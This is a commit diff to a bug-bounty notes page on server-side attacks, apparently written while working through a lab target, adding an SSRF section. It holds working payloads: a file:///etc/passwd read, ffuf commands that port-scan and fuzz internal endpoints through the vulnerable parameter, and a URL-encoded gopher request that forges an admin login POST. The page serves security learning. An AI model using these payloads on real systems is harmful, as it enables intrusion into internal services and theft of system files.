

Before and after one commit to variable190/BugBounty, an MkDocs documentation site: the page built from docs/bug-bounty-guide/server-side-attacks.md, in a window 1280 px wide and 1400 px high, scrolled down 467 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
add ssrf section to server side attacks

````diff
--- a/docs/bug-bounty-guide/server-side-attacks.md
+++ b/docs/bug-bounty-guide/server-side-attacks.md
@@ -15,24 +15,50 @@ Based on web app at http://10.129.201.127:34978 that has a drop down to check da
 
 ### Exploitation
 
-- Change POST parameter to `dateserver=file:///etc/passwd&date=2024-01-01` to check for LFI.
+#### LFI
 
-- internal portscan by accessing ports on localhost:
+Change POST parameter to `dateserver=file:///etc/passwd&date=2024-01-01`.
+
+#### Port Scan
+
+Internal portscan by accessing ports on localhost:
 
 ```bash
 seq 1 10000 > ports.txt
 ffuf -w ./ports.txt -u http://10.129.201.127/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://127.0.0.1:FUZZ/&date=2024-01-01" -fr "Failed to connect to"
 ```
 
-- accessing restricted endpoints:
+#### Fuzzing Endpoints
+
+Accessing restricted endpoints:
 
 ```bash
 ffuf -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -u http://10.129.201.127/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://dateserver.htb/FUZZ.php&date=2024-01-01" -fr "Server at dateserver.htb Port 80"
 ```
 
-- Consider we find and endpoint admin.php through fuzzing which returns a POST form:
+#### Using Gopher
+
+Consider we find an endpoint admin.php through fuzzing which returns a POST form:
 
 ![admin.php](../images/admin_php.png)
+
+To send a POST request to /admin.php containing the password in the adminpw POST parameter we can use gopher: `dateserver=gopher%3a//dateserver.htb%3a80/_POST%2520/admin.php%2520HTTP%252F1.1%250D%250AHost%3a%2520dateserver.htb%250D%250AContent-Length%3a%252013%250D%250AContent-Type%3a%2520application/x-www-form-urlencoded%250D%250A%250D%250Aadminpw%253Dadmin&date=2024-01-01`
+
+Gopher crafted a post request within the `dataserver` post parameter.
+
+Gopher can craft URLs that access other internal services through post parameters:
+- MySQL
+- PostgreSQL
+- FastCGI
+- Redis
+- SMTP
+- Zabbix
+- pymemcache
+- rbmemcache
+- phpmemcache
+- dmpmemcache
+
+We can use [Gopherus](https://github.com/tarunkant/Gopherus) to craft these payloads for us.
 
 ### Protocols
 
````
